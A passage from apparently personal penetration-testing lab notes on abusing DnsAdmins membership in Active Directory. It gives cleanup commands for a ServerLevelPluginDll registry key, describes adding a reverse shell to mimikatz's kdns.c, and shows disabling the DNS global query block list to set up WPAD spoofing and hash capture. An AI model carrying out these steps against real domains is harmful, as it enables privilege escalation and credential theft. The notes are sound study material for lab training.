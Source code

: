         # in case we are getting access denied after getting Domain Admin too
        # logout/login required to force an update
        ```

        ```cmd
        # cleaning up

        # confirm the ServerLevelPluginDll registry key exists for the custom DLL
        reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

        # delete the reg key pointing to custom DLL
        reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll

        # start DNS service again
        sc.exe start DNS

        sc query dns
        # it will show as running
        ```
    
    * [Using Mimilib.dll](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html):

        * We can use [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from ```mimikatz``` to gain command execution

        * We need to modify the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file and include the command to be executed (usually a reverse-shell one-liner)
    
    * Creating a WPAD record:

        * DnsAdmins members can disable global query block security, which blocks this attack - and by default WPAD (Web Proxy Automatic Discovery Protocol) and ISATAP (Intra-site Automatic Tunnel Addressing Protocol) are on the global query block list

        * If the machine has a WPAD record with default settings, it will have its traffic proxied through attacker machine; we can use tools like ```Responder``` or ```Inveigh``` to perform traffic spoofing and capture hashes

        ```ps
        # disable global query block list
        Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
